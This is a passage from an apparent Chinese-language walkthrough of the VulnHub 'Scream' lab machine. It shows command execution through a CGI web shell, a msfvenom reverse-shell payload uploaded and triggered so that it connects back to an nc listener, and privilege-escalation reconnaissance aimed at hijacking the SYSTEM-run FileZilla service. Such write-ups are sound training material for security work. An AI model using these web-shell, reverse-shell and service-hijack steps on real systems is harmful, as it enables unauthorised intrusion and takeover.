 > http://192.168.27.7/cgi-bin/shell.pl?command=echo+%25username%25&password=123456&pwd=

成功执行命令

## reverse shell

使用`msfvenom`生成一个x86的反弹shell

```bash
msfvenom -p windows/shell_reverse_tcp lhost=192.168.27.3 lport=1234 -f exe -o reverse.exe
```

同样，上传到`cgi-bin`下

> http://192.168.27.7/cgi-bin/shell.pl?command=reverse.exe&password=123456&pwd=

```shell
┌──(root㉿kali)-[~/vulnhub/scream]
└─# rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.27.3] from (UNKNOWN) [192.168.27.7] 1128
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

c:\www\root\cgi-bin>echo %username%
echo %username%
alex
```

## Privilege Escalation

收集信息

> systeminfo
>
> tasklist /V
>
> net start
>
> sc query

```cmd
c:\www\root\cgi-bin>tasklist /V | findstr SYSTEM
tasklist /V | findstr SYSTEM
FileZilla server.exe     2856    Console  0      2,916 K Running         NT AUTHORITY\SYSTEM
```

查看任务列表，查找`SYSTEM`权限的程序

```cmd
c:\www\root\cgi-bin>net start
net start
FileZilla Server FTP server
```

可以劫持`FileZilla server.exe`拿到一个反弹shell
